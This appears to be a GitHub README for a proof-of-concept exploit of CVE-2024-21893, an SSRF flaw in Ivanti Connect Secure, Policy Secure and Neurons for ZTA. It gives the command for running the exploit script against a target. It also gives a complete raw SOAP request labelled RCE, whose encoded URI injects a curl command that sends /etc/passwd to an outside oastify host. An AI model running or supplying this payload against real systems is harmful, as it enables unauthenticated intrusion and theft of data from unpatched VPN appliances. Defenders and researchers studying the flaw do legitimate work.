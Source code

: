 CVE-2024-21893 is  server-side request forgery vulnerability in the SAML component of Ivanti Connect Secure (9.x, 22.x) and Ivanti Policy Secure (9.x, 22.x) and Ivanti Neurons for ZTA allows an attacker to access certain restricted resources without authentication.

run `python CVE-2024-21893.py -u target.com -a http://xxxxxxxxx.oastify.com`

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/bec33c87-a6c7-4db3-aedc-5749e994c917)

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/c38f93de-379b-4b76-8326-e66c019dfa2a)

### RCE 

```
POST /dana-ws/saml20.ws HTTP/1.1
Host: target.com
Accept: */*
Content-Type: text/xml
Content-Length: 934
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<ds:Signature
		xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
			<ds:SignedInfo>
				<ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
				<ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
			</ds:SignedInfo>
			<ds:SignatureValue>qwerty</ds:SignatureValue>
			<ds:KeyInfo xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.w3.org/2000/09/xmldsig" xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
				<ds:RetrievalMethod URI="http://127.0.0.1:8090/api/v1/license/keys-status/%3bcurl%20-X%20POST%20-d%20%40%2fetc%2fpasswd%20http%3a%2f%2f8oxxxxxxxxxxxxx.oastify.com%3b"/>
				<ds:X509Data/>
			</ds:KeyInfo>
			<ds:Object></ds:Object>
		</ds:Signature>
	</soap:Body>
</soap:Envelope>

```

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/e7d7180a-b158-4437-9dd9-97d4c55539c9)


Reference : https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis 
